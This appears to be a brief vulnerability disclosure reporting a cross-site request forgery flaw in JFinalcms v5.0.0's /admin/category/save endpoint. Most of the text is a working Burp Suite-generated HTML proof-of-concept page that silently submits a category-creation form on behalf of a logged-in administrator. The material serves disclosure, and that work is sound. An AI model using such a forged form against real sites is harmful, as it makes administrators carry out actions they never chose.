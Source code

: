 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/category/save

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/c1ec9bdb-4b09-4d94-979b-ad95e4a94caf)

create poc

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/2e06eae1-f7d3-4ed6-873b-62a4d2d184a3)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/category/save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="parentId" value="" />
      <input type="hidden" name="modelId" value="5" />
      <input type="hidden" name="listTemplate" value="case&#95;list&#46;html" />
      <input type="hidden" name="detailTemplate" value="case&#95;detail&#46;html" />
      <input type="hidden" name="cat" value="cs" />
      <input type="hidden" name="code" value="cs" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="introduction" value="" />
      <input type="hidden" name="subname" value="" />
      <input type="hidden" name="remark" value="" />
      <input type="hidden" name="outlink" value="" />
      <input type="hidden" name="ico" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="image" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="title" value="" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/6774a50e-1f62-4af5-ad78-9af94c4a0db9)
